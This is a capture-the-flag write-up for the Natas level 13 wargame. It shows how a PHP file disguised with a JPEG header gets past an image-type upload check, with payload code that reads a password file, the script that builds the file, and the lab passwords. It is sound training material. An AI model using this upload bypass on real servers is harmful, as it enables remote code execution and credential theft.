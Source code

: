 # Natas CTF Solutions  

## Natas Level 13  

### 🌐 **Challenge Description**  
Natas teaches the basics of server-side web security. Each level consists of a website located at:  
👉 `http://natasX.natas.labs.overthewire.org` (where **X** is the level number).  

---

### 🎯 **Goal**  
- Bypass **image type validation** to upload a PHP shell.  
- Retrieve the password for the next level.  

---

## 🚀 **Solution**  

### **Step 1: Open the URL**  
Visit:  
```  
http://natas13.natas.labs.overthewire.org  
```  

---

### **Step 2: Enter Login Credentials**  
- **Username:** `natas13`  
- **Password:** Use the password from Natas Level 12:  
```
trbs5pCjCrkuSknBBKHhaBxq6Wm1j3LC
```  
![Home_Page](https://github.com/user-attachments/assets/90124546-a7e9-42d2-a965-82a35a5fcbc4)

---

### **Step 3: Analyze the Webpage**  
- The page allows **image uploads**.  
- Inspecting the source code reveals the use of `exif_imagetype()` to validate file types.  

![Page Source](https://github.com/user-attachments/assets/81e34224-62a7-4d7c-95c9-b8afea0c93bc)

---

### **Step 4: Create a Malicious PHP Shell Disguised as an Image**  
Since the server checks the file type using `exif_imagetype()` (which checks the file header), we can prepend a **JPEG header** to bypass this check.  

1. Create a PHP shell (`natas14.php`) with the following content:  
```php
<?php
  echo file_get_contents("/etc/natas_webpass/natas14");
?>
```  

2. Create a Python script (`payload.py`) to prepend a JPEG header and encode it in hex:  

```python
import codecs

# PHP Payload to execute
string = """<?php
  echo file_get_contents("/etc/natas_webpass/natas14");
?>"""

# Encode the PHP payload into hex
hex_string = codecs.encode(string.encode(), "hex").decode()

# Prepend JPEG header (FFD8FFDB) to make it look like an image
payload = "ffd8ffdb" + hex_string

# Write to file
with open("natas14.php", "wb") as f:
    f.write(codecs.decode(payload, "hex"))
```

3. Run the Python script:  
```bash
python3 payload.py
```

4. This generates a valid PHP file with a JPEG header.  

![Payload](https://github.com/user-attachments/assets/aa6d2caa-877e-40d6-aa02-4b268e36cf18)

---

### **Step 5: Upload the Payload**  
- Upload the `natas14.php` file.  
- Open **Burp Suite** and enable **intercept mode**.  
- Modify the `filename` extension from `.jpg` to `.php` in the request:  
```  
Content-Disposition: form-data; name="uploadedfile"; filename="natas14.php"  
```  
- Forward the request.  
![Modified_Content](https://github.com/user-attachments/assets/c4ea33ae-3d32-4090-9da6-e927b4b003a1)

---

### **Step 6: Execute the File**  
- After uploading, a link to the file will appear on the page.  
- Open the link to execute the PHP shell:  
```  
http://natas13.natas.labs.overthewire.org/uploads/natas14.php
```  
- The output will display the password for **Natas Level 14**.  

![File](https://github.com/user-attachments/assets/8ccdc51d-d0b1-4348-a80b-fc80b1f4766b)

---

### **✅ Password for Natas Level 14**  
```
z3UYcr4v4uBpeX8f7EZbMHlzK4UR2XtQ
```  

---

## 💡 **Lessons Learned**  
✔️ **File Type Validation Bypass**: Prepending a valid JPEG header can bypass file type validation.  
✔️ **exif_imagetype() Bypass**: `exif_imagetype()` only checks the file header, so adding a valid header tricks the server.  
✔️ **Command Execution via File Upload**: Uploading a malicious PHP shell allows for remote code execution.  

---

## 🖼️ **Screenshots**  
| Step | Screenshot |  
|------|------------|  
| Step 3 – Source Code with Upload Logic | ![Page Source](https://github.com/user-attachments/assets/81e34224-62a7-4d7c-95c9-b8afea0c93bc) |  
| Step 5 – Burp Suite Interception | ![Modified_Content](https://github.com/user-attachments/assets/c4ea33ae-3d32-4090-9da6-e927b4b003a1) |  
| Step 6 – PHP Shell Execution | ![File](https://github.com/user-attachments/assets/8ccdc51d-d0b1-4348-a80b-fc80b1f4766b) |  

---

## 🎯 **Next Level**  
Use the password to access **Natas Level 14**:  
👉 [http://natas14.natas.labs.overthewire.org](http://natas14.natas.labs.overthewire.org)  

---

